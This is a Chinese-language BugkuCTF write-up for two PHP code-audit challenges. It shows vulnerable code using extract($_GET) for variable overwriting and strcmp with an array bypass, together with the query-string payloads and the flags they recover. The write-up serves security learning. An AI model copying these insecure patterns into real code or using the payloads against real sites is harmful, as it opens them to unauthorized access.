```yaml
---
layout: page
title: "BugkuCTF-代码审计-WriteUp"
date: 2019-08-23 01:01
---
```


BugkuCTF-代码审计-WriteUp

## extract变量覆盖
```php
<?php
$flag='xxx';
extract($_GET);
if(isset($shiyan))
{
    $content=trim(file_get_contents($flag));
    if($shiyan==$content)
    {
        echo'flag{xxx}';
    }
else
{
    echo'Oh.no';
    }
}
?>
```
- `extract($_GET)`相当于
```
$shiyan = $_GET['shiyan']
$flag = $_GET['flag']。
```
- 输出flag满足两个条件
  - `isset`为真 这个get`shiyan`参数即可 变量值为null亦可
  - `shiyan==flag`
- payload`?shiyan=&flag=`
- flag{bugku-dmsj-p2sm3N}


## strcmp比较字符串
```php
<?php
$flag = "flag{xxxxx}";
if (isset($_GET['a'])) {
if (strcmp($_GET['a'], $flag) == 0) //如果 str1 小于 str2 返回 < 0； 如果 str1大于 str2返回 > 0；如果两者相等，返回 0。
//比较两个字符串（区分大小写）
die('Flag: '.$flag);
else
print 'No';
}
?>
```
- strcmp无法判别数组，出错显示警告信息后后并return 0
- payload`?a[]=anything`
- flag{bugku_dmsj_912k}
